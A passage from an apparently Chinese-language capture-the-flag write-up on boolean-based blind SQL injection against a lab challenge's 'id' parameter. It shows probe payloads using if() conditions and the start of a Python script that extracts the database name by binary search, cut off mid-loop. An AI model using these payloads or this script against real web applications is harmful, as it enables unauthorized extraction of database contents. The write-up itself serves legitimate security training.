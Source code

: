 ```
?id=TMP0919' And if(1>0,1,0)%23
```

注：#为url编码过的
 ![在这里插入图片描述](assets/dd8f9f56596a471a84972981ca99e847.png)
 然后修改一下

```
?id=TMP0919' And if(1<0,1,0)%23
```

![在这里插入图片描述](assets/4413868dab134ba4b4b4e2dcaec81b57.png)
 可以发现当正确时有回显，错误时无回显，可以用布尔盲注
 脚本如下（菜鸡本人写的）

```python
import requests
import string

host = "http://fad66500-0807-4ead-8cad-dbbe48fd82cc.node4.buuoj.cn:81/?id=TMP0919"

def DBname():  
    global host
    flag=''
    for i in range(1,1000):
        low = 32
        high = 128
        mid = (low+high)//2
        while low < high:
            #--库名
            payload = "' And if(Ascii(Substr(database(),{i},1))>{mid},1,0)%23".format(i=i, mid=mid)
            res = requests.get(host + payload)
```